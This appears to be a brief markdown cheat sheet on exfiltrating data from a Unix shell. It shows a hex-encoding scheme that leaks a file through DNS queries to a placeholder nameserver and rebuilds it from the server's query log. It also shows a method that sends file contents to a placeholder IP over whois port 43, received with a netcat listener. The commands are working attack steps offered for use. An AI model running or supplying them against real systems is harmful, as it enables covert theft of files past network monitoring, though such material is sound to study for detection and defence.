 # DNS

## 01 - Unix Shell

### 1.1 - Hex Encoded DNS Exfiltration

```
$ xxd -p file.txt > file.hex

$ for line in `cat file.hex`; do drill $line.<nameserver_dns_server>; done

$ egrep -o [0-9a-f]*.<nameserver_dns_server> /var/lib/bind/query.log | cut -d . -f 1 | uniq > file.hex

$ xxd -r -p file.hex > file.txt
```

### 1.2 - Whois

```
$ whois -h <IP> -p 43 `cat /path/to/file.txt`

$ sudo nc -lnvp 43
```